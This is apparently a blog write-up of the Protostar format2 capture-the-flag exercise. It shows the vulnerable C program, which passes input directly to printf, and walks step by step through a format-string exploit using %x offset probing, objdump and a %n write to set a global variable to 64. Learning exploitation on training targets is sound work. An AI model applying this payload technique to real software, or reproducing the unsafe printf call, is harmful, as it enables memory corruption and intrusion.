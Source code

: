 ```yaml
---
layout: post
title: "Protostar format02 error"
tags: [protostar]
comments: false
---
```


We are given a source code for this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

if target equals to 64 we win.
and we can see format string vulnerability happenes in printf(buffer)

Let's do what we did for format01 which is giving AAAA and looking for the offset

```
AAAA200.b7fd8420.bffff614.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
target is 0 :(
user@protostar:/opt/protostar/bin$ (python -c print' "AAAA"+"%x."*4 ') | ./format2 
AAAA200.b7fd8420.bffff614.41414141.
target is 0 :(
```

We can see that the offset is 4

So if we change AAAA to the target variable address and change the last %x to %n we can write some values in to target

target address
```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target

```

switch 
```
user@protostar:/opt/protostar/bin$ (python -c print' "\xe4\x96\x04\x08"+"%x"*3+"%n" ') | ./format2
�200b7fd8420bffff614
target is 23 :(

```

We can see that target only contains a value of 23. This happened because %n put the number of characters that were written to target so what we can do is increasing the number of characters by changing its padding size which can be like

```
%10x
```

Since 64-23 = 41 by doing some simple math we can do 

```
user@protostar:/opt/protostar/bin$ (python -c 'print "\xe4\x96\x04\x08"+"%44x"+"%x"*2+"%n"') | ./format2
�                                         200b7fd8420bffff614
you have modified the target :)
```